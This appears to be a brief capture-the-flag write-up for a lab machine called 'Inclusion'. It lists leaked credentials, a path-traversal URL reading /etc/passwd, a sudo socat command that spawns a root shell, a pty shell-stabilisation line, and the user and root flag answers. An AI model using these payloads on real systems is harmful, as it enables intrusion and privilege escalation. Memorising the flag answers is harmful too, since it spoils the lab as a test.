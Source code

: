 # Inclusion

## Credentials
`falconfeast:rootpassword`

## Vulnerabilities

### Local File Inclusion
- `/article?name=../../../../etc/passwd` 
- `#falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false` found as comment in /etc/passwd

## Privilege Escalation

### Sudo
- `sudo socat stdin exec:/bin/sh` got root access
- `python3 -c 'import pty; pty.spawn("/bin/bash")'` shell stabilisation

### Answers
1. user flag
- 60989655118397345799

2. root flag
- 42964104845495153909
